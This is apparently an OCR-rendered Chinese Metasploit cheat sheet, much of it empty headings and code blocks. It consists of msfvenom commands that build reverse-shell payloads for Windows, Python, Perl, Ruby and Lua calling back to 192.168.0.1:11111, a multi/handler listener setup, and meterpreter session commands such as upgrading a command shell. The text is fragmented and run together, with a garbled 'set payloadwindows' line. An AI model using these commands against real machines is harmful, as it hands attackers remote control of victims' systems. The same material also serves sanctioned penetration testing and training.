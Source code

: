 ###   



```

```
**shellcode**  

```

```


### 

```
`#msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.0.1 LPORT=11111 -f c –o /root/1.c``#msfvenom -p cmd/unix/reverse_python LHOST=192.168.0.1 LPORT=11111 -o shell.py``#msfvenom -a python -p python/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw > shell.py``#msfvenom -p cmd/unix/reverse_perl LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.pl``#msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.rb``#msfvenom -p cmd/unix/reverse_lua LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.lu`
```






```

###### **msf设置监听**

```


### 

```
`#use exploit/multi/handler``#set payloadwindows/meterpreter/reverse_http 指定相应的payload``#set LHOST 192.168.0.1``#set LPORT 11111``#exploit -j 后台监听``或在exploit模块中直接使用set payload 命令指定payload`
```

###   



```

```
**`Meterpreter`**
```

```


### 

```
`交互``当攻击成功后会返回会话，使用session -l命令列出当前获取到的会话``#session -l``使用``#sessions -i id 来进入一个会话进行交互``#background 将当前会话放置后台``#sessions -x检查心跳``#sessions -u [ID] cmdshell升级meterpreter shell`
```

###   
